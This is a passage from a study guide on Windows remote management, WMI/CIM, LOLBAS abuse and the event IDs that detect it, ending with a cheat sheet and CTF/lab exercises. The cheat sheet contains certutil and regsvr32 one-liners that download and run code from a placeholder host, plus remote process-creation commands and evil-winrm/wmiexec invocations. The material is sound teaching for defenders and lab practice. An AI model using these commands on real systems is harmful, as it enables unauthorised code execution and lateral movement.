- **Enabling CredSSP broadly "to fix an error" without understanding the exposure.** CredSSP delegates real credentials to the target; enabling it organization-wide for convenience creates a much larger blast radius if any single target is compromised.

---

## Final Revision — Recap

- **WinRM/WS-Management** is the transport (5985 HTTP / 5986 HTTPS) that carries both PowerShell Remoting (PSRP) and modern CIM traffic.
- **PSRP** (`Invoke-Command`, `Enter-PSSession`, `New-PSSession`) runs PowerShell remotely; results come back as **CLIXML-deserialized objects** that lose live methods.
- **JEA** lets you register constrained session configurations that expose only specific cmdlets to specific users — real privilege minimization for remoting.
- **WMI** is the original management model (namespaces → classes → instances → methods), queried with **WQL**; legacy cmdlets (`Get-WmiObject`) use **DCOM (port 135 + dynamic RPC)**.
- **CIM cmdlets** (`Get-CimInstance`, `Invoke-CimMethod`) are the modern replacement, riding **WinRM** instead of DCOM, and are cross-platform in PowerShell 7+.
- **WMI event subscriptions** (`__EventFilter` + `__EventConsumer` + `__FilterToConsumerBinding`) provide file-less, registry-free persistence — check `root\subscription` explicitly during IR.
- **LOLBAS** techniques (`certutil`, `mshta`, `regsvr32`, `msbuild`, `rundll32`, `bitsadmin`, PowerShell download cradles) abuse signed Windows binaries to execute or fetch code without dropping custom malware.
- **Detection** hinges on Event ID **4688** (with command-line auditing), **4103/4104** (PowerShell logging), **91/168** (WinRM), and **5857–5861** (WMI-Activity, especially 5861 for persistence).

---

## Cheat Sheet

```
# --- WinRM setup / recon ---
Enable-PSRemoting -Force -SkipNetworkProfileCheck
Test-NetConnection -ComputerName <host> -Port 5985
Get-PSSessionConfiguration | Select Name, Permission

# --- PSRP ---
Invoke-Command -ComputerName <host> -ScriptBlock { <code> }
Enter-PSSession -ComputerName <host>
$s = New-PSSession -ComputerName <host>; Invoke-Command -Session $s {...}; Remove-PSSession $s

# --- WMI (legacy, DCOM, port 135) ---
Get-WmiObject -Class Win32_Process -ComputerName <host> -Credential $cred
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "<cmd>" -ComputerName <host>

# --- CIM (modern, WinRM) ---
$cs = New-CimSession -ComputerName <host> -Credential $cred
Get-CimInstance -CimSession $cs -ClassName Win32_Service -Filter "State='Running'"
Invoke-CimMethod -CimSession $cs -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine="<cmd>"}

# --- LOLBAS quick reference ---
certutil.exe -urlcache -split -f http://host/file out.exe
regsvr32.exe /s /u /i:http://host/file.sct scrobj.dll
mshta.exe vbscript:Execute("...")

# --- CTF go-to ---
evil-winrm -i <target> -u <user> -p <password>
wmiexec.py <domain>/<user>:<pass>@<target>

# --- Detection: key Event IDs ---
4688  Process creation (pair with command-line auditing)
4103/4104  PowerShell module / script-block logging
91/168  WinRM session created/closed
5857-5861  WMI-Activity (5861 = persistence artifact creation)
```

---

## Practice Labs & Resources

1. **TryHackMe — "Res" or "Ice"** (Windows machines featuring WinRM as an entry vector) — practice `evil-winrm` end to end.
2. **HackTheBox — any "easy/medium" Windows box tagged WinRM/WMI** — enumerate with `crackmapexec winrm <target> -u <user> -p <pass>` before connecting.
3. **Impacket lab exercise:** stand up two VMs in your own isolated lab network, obtain valid low-priv credentials, and run `wmiexec.py`, then `smbexec.py`, then `psexec.py` against the same target — diff the resulting Event Logs (4688, 5140, 7045, 5861) to see how each tool's footprint differs.
4. **WMI persistence lab (isolated VM only):** create a real `__EventFilter`/`__EventConsumer`/`__FilterToConsumerBinding` triggered by process start, confirm it fires, then find and remove it using only `Get-CimInstance -Namespace root/subscription`.
5. **JEA hardening exercise:** register a custom JEA endpoint that only allows `Restart-Service` and `Get-EventLog`, connect as a restricted account, and confirm any other cmdlet is blocked — then check what Event ID fires for a disallowed command attempt.
